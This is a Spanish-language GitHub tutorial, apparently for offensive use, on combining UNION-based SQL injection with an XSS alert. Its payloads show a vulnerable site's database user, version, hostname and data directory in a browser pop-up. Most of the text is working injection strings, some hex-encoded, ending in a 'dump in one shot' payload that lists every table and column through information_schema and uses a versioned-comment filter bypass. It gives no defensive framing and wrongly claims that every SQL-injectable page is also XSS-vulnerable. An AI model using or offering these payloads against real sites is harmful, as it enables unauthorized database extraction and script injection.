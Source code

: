 # One shot payload sql and xss

En este escrito me gustaría compartir una de mis mezclas favoritas, en donde se combina una inyección xss dentro de una inyección sql para así poder mostrar el resultado de la inyeccion sql dentro de un alert gracias a la inyeccion xss, puede sonar loco o complicado pero no, es bastante fácil y trataré de explicarlo paso a paso, aquí un ejemplo del resultado: 

![](ejemplos/1.png)

Para empezar tenemos que recordar bien como se comporta una inyección sql, ya que, para poder insertar este payload tenemos que hacerlo en una columna vulnerable, para recordar bien esto recomiendo pasar por el escrito de inyecciones sql:

https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic.md

Una vez que tengamos la página con la inyección sql lista y tengamos el numero de columnas descubiertas, podemos empezar:

![](ejemplos/2.png)

En este caso la página que utilizaré tiene 21 columnas y las columnas vulnerables son 16, 17 y la numero 18. Yo estare trabajando con la numero 18.

Recordemos que siempre que una página es vulnerable a inyecciónes sql también es vulnerable a inyecciones xss, para poder inyectar xss dentro de sql se hace lo siguiente:

1 - Primero se identifica la columna vulnerable con la cual se va a trabajar (en este caso la numero 18):

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21+--+`

2 - Inyectamos el payload xss dentro de la columna:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,<script>alert("_Y000!_")</script>,19,20,21+--+
        
3 - Para que se muestre correctamente la inyección xss tenemos que pasar el código a hexadecimal:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e,19,20,21+--+`
        
4 - El resultado es el siguiente:         

![](ejemplos/3.png)

Ahora, en este caso solo estamos inyectado xss puro y solo nos muestra un alert, para el sigiente paso vamos a usar los siguietes comandos y me gustaría explicar su funcion ya que los usaremos mas adelante:

```
\n = 5c6e =salto de linea

------ = 2d2d2d2d2d2d = lo usaremos como separador
```

NOTA= para hacer que los códigos codificados en hexadecimal funcionen en la inyección tenemos que poner 0x antes del código para que el navegador reconozca que estamos usando codico en hexadecimal y lo lea correctamente

Siguiendo con la inyeccion, vamos a introducir un poco de syntaxis sql dentro de la inyeccion xss, mas especificamente, lo que vamos a hacer es extender el alert:

El siguiente payload nos quedará asi:
`group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`

con todas las partes en hexadecimal:

`union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,group_concat(0x3c7363726970743e616c65727428227873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x5573756172696f3a3a,user(),0x22293c2f7363726970743e),19,20,21+--+`


vamos a explicar paso a paso esta inyección:

1 - Estamos usando "group_concat" al principio por que ya estamos integrando syntaxis sql dentro de la inyección xss:

          `group_concat`

2 - Ponemos el payload entre "()" ya que es la syntaxis usada para group_concat 

          `group_concat()`
          
3 - Estamos haciendo uso de caracteres especiales para personalizar el alert

          `group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,")</script>)`
          
4 - Usamos "Usuario::" para darle un lugar especifco a "user()" el cual usamos para que la inyeccion nos muestre el usuario que la pagina nos esta dando, en este caso tenemos "root@localhost" 

          `group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`
          
5 - resultado:

![](ejemplos/4.png)


Siguendo esta logica podemos usar consultas perzonalizadas. les recomiendo esta parte de mi escrito de inyecciones sql:

https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic.md#mysql-sql-Injection-Cheat-Sheet

Una vez elegido lo que queremos mostrar, podemos ir al siguiente paso, en este ejemplo yo elegí mostrar la siguiente información:

```
user()
version()
@@hostname
@@datadir
database()
```

payload:

`group_concat(0x<script>alert("xss_y_sql_by_Y000!_,\n,------,\n,usuario::,user(),\n,------,\n,version::,version(),\n,------,\n,hostname::,@@hostname,\n,------,\n,directorio::,@@datadir,\n,------,\n,Database::,database(),\n,------,\n,")</script>)`


payload completo con todas sus partes en hexadecimal:

`union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,group_concat(0x3c7363726970743e616c657274607873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x7573756172696f3a3a,user(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x76657273696f6e3a3a,version(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x686f73746e616d653a3a,@@hostname,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x6469726563746f72696f3a3a,@@datadir,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x44617461626173653a3a,database(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x603c2f7363726970743e),19,20,21+--+`

El resultado es el siguiente:

![](ejemplos/5.png)


Por último nos falta la parte mas importante de esta inyección la cual es un payload sql dios (dump in one shot).

El payload dios que vamos a usar es el siguiente: 

```

(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)

```

Voy a tratar de explicarlo:

Un payload "dios" en inyecciones sql, es una linea se sentencias sql que unidas devuelven toda la información de la base de datos, he ahí el nombre de dios = dump in one shot

1 - usamos "(select(@x)from(select(@x:0x00)," para reproducir la sentencia que se estará repitiendo hasta que la condicion termine, en este caso la condicion va despues de la coma (,)

          `(select(@x)from(select(@x:0x00),`

2 - Esta parte forma la condicion:
"(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)"

Primero tenemos: (select(0)from(information_schema.columns)where(table_schema=database())

lo que hace esto es seleccionar la primera linea de las columnas dentro de la base de datos en la que estamos, asi como también el nombre de la tabla en la que se encuentra

Después tenemos: and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)

Nos esta diciendo que despues de tener la primera linea de la columna se pase a la siguente y asi sucesivamente y que se almacenen en la variable antes creada "@x:" ya que se les esta dando un lugar en "0x00", por último se va a mostrar el nombre de cada tabla y de cada columna que hay en esa base de datos.

volvamos al payload:

```

(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)

```

por si solo este payload nos muestra la siguiente información:

![](ejemplos/6.png)


Por último vamos a juntar TODO el payload:

```
group_concat(<script>alert("xss_y_sql_by_Y000!_,\n,------,\n,usuario::,user(),\n,------,\n,version::,version(),\n,------,\n,hostname::,@@hostname,\n,------,\n,directorio::,@@datadir,\n,------,\n,Database::,database(),\n,------,\n,(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name, :: ,column_name))))x),`</script>)

```

Payload completo con las partes en hex:

```

1+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,/*!50000concat*/(0x3c7363726970743e616c657274607873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x7573756172696f3a3a,user(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x76657273696f6e3a3a,version(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x686f73746e616d653a3a,@@hostname,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x6469726563746f72696f3a3a,@@datadir,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x44617461626173653a3a,database(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,0x5c6e,table_name,0x203a3a20,column_name))))dd),0x603c2f7363726970743e),19,20,21+--+      

```

Teniendo como resultado:

![](ejemplos/7.png)



Espero que este escrito sea de su agrado!
